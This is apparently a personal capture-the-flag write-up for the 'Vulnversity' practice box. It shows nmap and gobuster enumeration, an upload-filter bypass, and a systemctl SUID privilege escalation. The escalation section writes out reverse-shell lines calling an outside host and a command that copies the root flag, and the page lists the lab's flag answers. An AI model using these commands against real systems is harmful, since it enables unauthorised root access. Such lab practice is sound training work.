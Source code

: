 06/16/2025

# Vulnversity
Note: Box seemed very unstable and constantly dropping packets. Ping reponse is less than 70% even after waiting 10 mins. Grrr

# TASK 1

Fire up the box and wait a bit for pings to return
Create working folder and nmap folder

Setup IP variable for simplicity
Export IP=<ip address>
10.10.101.248

# TASK 2

Q. Scan the box; 
#Nmap scan
#nmap -sC -sV -oN nmap/initial $IP

Results

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-18 20:43 EDT                                    
Nmap scan report for 10.10.82.241                                                                  
Host is up (0.15s latency).                                                                        
Not shown: 994 closed tcp ports (reset)                                                            
PORT     STATE SERVICE     VERSION                                                                 
21/tcp   open  ftp         vsftpd 3.0.5                                                            
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)           
| ssh-hostkey: 
|   3072 74:13:9e:22:29:6c:fb:c3:5c:da:c7:80:94:4d:b4:63 (RSA)
|   256 ba:21:a7:b5:4b:38:13:88:27:1f:f1:01:de:48:c0:58 (ECDSA)
|_  256 30:d4:46:5e:ec:78:6d:d6:95:d1:65:0a:6d:b5:23:73 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
3128/tcp open  http-proxy  Squid http proxy 4.10
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.10
3333/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2025-06-19T00:44:02
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: IP-10-10-82-241, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.62 seconds

Q. How many ports are open?

A> 6

Q. What version of the squid proxy is running on the machine?

A.  4.10

Q. How many ports will Nmap scan if the flag -p-400 was used?

A. 400

Q. What is the most likely operating system this machine is running? 

A. Ubuntu

Q. What port is the web server running on?

A. 3333

Q. What is the flag for enabling verbose mode using Nmap?

A. -v

# TASK 3

Q. What is the directory that has an upload form page?

A. /internal/

gobuster dir -w /usr/share/wordlist/dirbuster/directory-1.3.1-small.txt -u http://<ipaddres>:3333

# TASK 4

Q. What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.

A. .php

Q. What extension is allowed after running the above exercise?

A. phtml

Q. What is the name of the user who manages the webserver?

A. bill

Q. What is the user flag?

A. 8bd7992fbe8a6ad22a63361004cfcedb

# TASK 5

Q. On the system, search for all SUID files. Which file stands out?

A. go to https://gtfobins.github.io/gtfobins/systemctl/ to find answer = /bin/systemctl

find / -type f -perm -04000 -ls 2>/dev/null
   396628     44 -rwsr-xr-x   1 root     root        41552 Feb  6  2024 /usr/bin/newuidmap
   395578     84 -rwsr-xr-x   1 root     root        85064 Feb  6  2024 /usr/bin/chfn
   396626     48 -rwsr-xr-x   1 root     root        45648 Feb  6  2024 /usr/bin/newgidmap
   396998    164 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /usr/bin/sudo
   400521     52 -rwsr-xr-x   1 root     root        53040 Feb  6  2024 /usr/bin/chsh
   400524     68 -rwsr-xr-x   1 root     root        68208 Feb  6  2024 /usr/bin/passwd
   419923     32 -rwsr-xr-x   1 root     root        31032 Feb 21  2022 /usr/bin/pkexec
   397803     44 -rwsr-xr-x   1 root     root        44784 Feb  6  2024 /usr/bin/newgrp
   400523     88 -rwsr-xr-x   1 root     root        88464 Feb  6  2024 /usr/bin/gpasswd
   401943     56 -rwsr-sr-x   1 daemon   daemon      55560 Nov 12  2018 /usr/bin/at
   397519    156 -rwsr-xr-x   1 root     root       159304 Jan 15 15:02 /usr/lib/snapd/snap-confine
   419925     24 -rwsr-xr-x   1 root     root        22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
   397315    468 -rwsr-xr-x   1 root     root       477672 Apr 11 08:16 /usr/lib/openssh/ssh-keysign
   401528     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
   396651     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   404935    848 -rwsr-xr-x   1 root     root         866448 Feb  3  2022 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   133104     68 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /bin/su
   133153     56 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /bin/mount
   133154     40 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /bin/umount
   131094    976 -rwsr-xr-x   1 root     root         996584 Jun 17  2024 /bin/systemctl
   131086     40 -rwsr-xr-x   1 root     root          39144 Mar  7  2020 /bin/fusermount
      210    177 -rwsr-xr-x   1 root     root         180753 Apr  5 15:10 /snap/snapd/24505/usr/lib/snapd/snap-confine
      875     84 -rwsr-xr-x   1 root     root          85064 Feb  6  2024 /snap/core20/2582/usr/bin/chfn
      881     52 -rwsr-xr-x   1 root     root          53040 Feb  6  2024 /snap/core20/2582/usr/bin/chsh
      951     87 -rwsr-xr-x   1 root     root          88464 Feb  6  2024 /snap/core20/2582/usr/bin/gpasswd
     1035     55 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /snap/core20/2582/usr/bin/mount
     1044     44 -rwsr-xr-x   1 root     root          44784 Feb  6  2024 /snap/core20/2582/usr/bin/newgrp
     1059     67 -rwsr-xr-x   1 root     root          68208 Feb  6  2024 /snap/core20/2582/usr/bin/passwd
     1169     67 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /snap/core20/2582/usr/bin/su
     1170    163 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /snap/core20/2582/usr/bin/sudo
     1228     39 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /snap/core20/2582/usr/bin/umount
     1317     51 -rwsr-xr--   1 root     systemd-network    51344 Oct 25  2022 /snap/core20/2582/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1691    467 -rwsr-xr-x   1 root     root              477672 Apr 11 08:16 /snap/core20/2582/usr/lib/openssh/ssh-keysign
   393653     48 -rwsr-xr-x   1 root     root               48200 Apr  2 00:10 /sbin/mount.cifs

Q. What is the root flag value?

A. a58ff8579f0a9270368d33a9966c7fd5

#Check Gtfobins for SUID escalation script



Move to a writeable directory - I used /tmp

TF=$(mktemp).service

echo '[Service]

Type=oneshot

ExecStart=/bin/sh -c "id > /tmp/output"

[Install]

WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF

/bin/systemctl enable --now $TF

'We need to change the ExecStart command so I can create reverse shell as root. This is where my problems started...

Googling around I found 

ExecStart=/bin/sh -c "nc -e /bin/bash 10.2.57.121 9999"

'that didn't work. no -e option

ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.2.57.121/5555 0>&1'

'this didn't work either. "Bad fd number"

'More googling!

'Finally I gave up on reverse shell and just decided to cat out the file and redirect it to a new file in temp I could read

ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root.txt"

That worked fine. 

# REMINDER: I'll need to come back to this once I understand why nc -e isn't available and why bash has trouble with >&
